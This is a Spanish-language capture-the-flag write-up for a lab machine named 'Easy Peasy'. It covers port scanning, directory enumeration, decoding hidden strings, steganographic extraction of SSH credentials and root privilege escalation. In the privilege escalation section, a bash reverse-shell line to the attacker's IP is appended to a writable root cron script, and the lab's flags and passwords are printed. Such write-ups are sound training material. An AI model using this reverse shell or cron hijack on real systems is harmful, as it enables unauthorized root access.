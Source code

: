 # Easy Peasy
## Network scan

```nmap
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
```

## Enumeration 

### HTTP nginx

El primer gobuster que usamos nos muestra un directorio llamado hidden, veamos si escaneando recursivamente encontramos algo
```
gobuster -u http://10.10.172.4/hidden -w /usr/share/dirb/wordlists/big.txt -t 100
    /whatever
```

El header de esta página es dead end, miremos el source a ver si hay algo que nos aporte alguna pista 

```html
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
```

Lo decodificamos y tenemos la primera flag
```flag
flag{f1rs7_fl4g}
```

### HTTP Apache

En robots.txt tenemos una entrada un tanto extraña:
```robots.txt
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```
Usando este user-agent podemos acceder a la pagina donde veremos la flag numero 3 , aunque realmente no hace falta, lo que me lleva a preguntarme para que esta, asi que empece a probar tools online para decodificarm finalmente es el MD5 de la flag
```flag
flag{1m_s3c0nd_fl4g}
```

En la página podemos ver la flag 3 
```flag
flag{9fdafbd64c47471a8f54cd3fc64cd312} 
```
Mirando en el fuente encontramos varias cosas que me llaman la atención
```html
<!--      <div class="table_of_contents floating_element">
        <div class="section_header section_header_grey">
          TABLE OF CONTENTS
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#about">About</a>
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#flag">hi</a>
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#scope">Scope</a>
        </div>
        <div class="table_of_contents_item floating_element">sando la 
          <a href="#files">Config files</a>
        </div>
      </div>
-->
```
```html
	<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
```
Esta encoded en base62 y el resultado es /n0th1ng3ls3m4tt3r

Accedamos a ese directorio y veremos que en el fuente hay un string encoded pero no sabemos el formato, una pista nos dice que es GOST 
```html
<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
```

Usando la web de md5hashing para hacer hash lookup obtenemos que la password hasheada es mypasswordforthatjob

Podemos usar esta pass para extraer unas creds de la imagen usando steghide
```
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```
Veamos en que decodifica el binario

```
iconvertedmypasswordtobinary
```
Finalmente las creds son 
```
boring:iconvertedmypasswordtobinary
```

Veamos si valen para el SSH

```
me@me:~$ ssh boring@10.10.176.97 -p 6498
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

Aplicamos ROT13 a el texto y nos sale una flag
```
flag{n0wits33msn0rm4l}
```

## Privesc

Viendo el crontab tenemos la siguiente linea
```
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
Veamos si podemos editar de algun modo ese archivo
```
-rwxr-xr-x  1 boring boring   33 Jun 14 22:43 .mysecretcronjob.sh
```
Parece que si, veamos si puedo invocar una reverse shell hacia mi máquina 

```
echo 'bash -i >& /dev/tcp/10.9.95.54/4444 0>&1' >> /var/www/.mysecretcronjob.sh
```

Y obtenemos una shell en nuestra máquina
```
root@kral4-PC:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
```

